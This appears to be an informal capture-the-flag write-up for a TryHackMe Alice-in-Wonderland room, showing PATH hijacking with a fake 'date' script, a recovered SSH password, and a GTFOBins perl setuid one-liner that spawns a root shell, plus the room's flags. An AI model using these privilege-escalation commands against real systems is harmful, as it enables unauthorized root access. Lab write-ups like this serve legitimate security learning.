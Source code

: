 

```
Welcome to the tea party!
The Mad Hatter will be here soon.

/bin/echo -n 'Probably by ' && date --date='next hour' -R

Ask very nicely, and I will give you some tea while you wait for himSegmentation fault (core dumped)8
```


```
export PATH=/tmp:$PATH

echo $PATH
```

As you can we have elevated to another user as well
date 
```
#!/bin/bash 
/bin/bash
```
![[Pasted image 20231101234737.png]]

the connection got closed so have to run everything again will do it tomorrow.
We got some thing sus and it seems password
```
WhyIsARavenLikeAWritingDesk?
```
![[Pasted image 20231102142513.png]]

Yes the password is for hatter as i was able to make a ssh login through it 
```
hatter
WhyIsARavenLikeAWritingDesk?
```
Let's run the linpeas again as i have seem something with root and hatter permission

Now i think the usr txt is in the tryhackme folder and we already have the root.txt in alice but don't have the priv to see the content.

Let's say where this journey take us.

There is something related to perl we got this earlier as well but was not able to run but i think now we can escalate.
```
/usr/bin/perl = cap_setuid+ep

/usr/bin/perl5.26.1 = cap_setuid+ep

/home/hatter/.bash_history
```
![[Pasted image 20231102144134.png]]

I told that i was not able to recall the permission but here we have hater.
let's open GTFOBINS and see what we can do

```
perl -e 'use POSIX qw(setuid); POSIX::setuid(0); exec "/bin/sh";'
```
With little tweaks in the command we got something
![[Pasted image 20231102144256.png]]

I was wrong and the user.txt was in the root folder
```
thm{"Curiouser and curiouser!"}
```
![[Pasted image 20231102144416.png]]

Let's read the root file we already know where it is
```
thm{Twinkle, twinkle, little bat! How I wonder what you’re at!}
```
![[Pasted image 20231102144559.png]]
